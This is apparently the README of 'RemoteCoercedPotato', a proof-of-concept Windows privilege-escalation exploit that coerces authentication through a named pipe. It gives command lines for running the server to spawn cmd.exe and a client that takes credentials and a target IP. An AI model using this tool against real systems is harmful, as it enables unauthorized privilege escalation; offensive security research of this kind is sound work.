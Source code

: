 # RemoteCoercedPotato
A POC of a Remote Coerced Patate, just for fun.

Usage : 

- Without random namedpipe (default) :

    > $ ./CoercedPotatoServer -c cmd.exe

    > python3 CoercedPotatoClient.py -u user -p password 127.0.0.1 [targeted_IP]


 - Without random namedpipe (given by CoercedPotatoServer output) : 
 
    > $ ./CoercedPotatoServer -c cmd.exe -r true 
        
    > python3 CoercedPotatoClient.py -n [randomnamedpipe] -u user -p password -r true 127.0.0.1 [targeted_IP] 


Todo : 

    - Random NamedPipe [DONE]
    
    - Implemention of MS-RPRN interfacce 
    
    - Creation a powershell of a bytecode version of the namedPipe server 
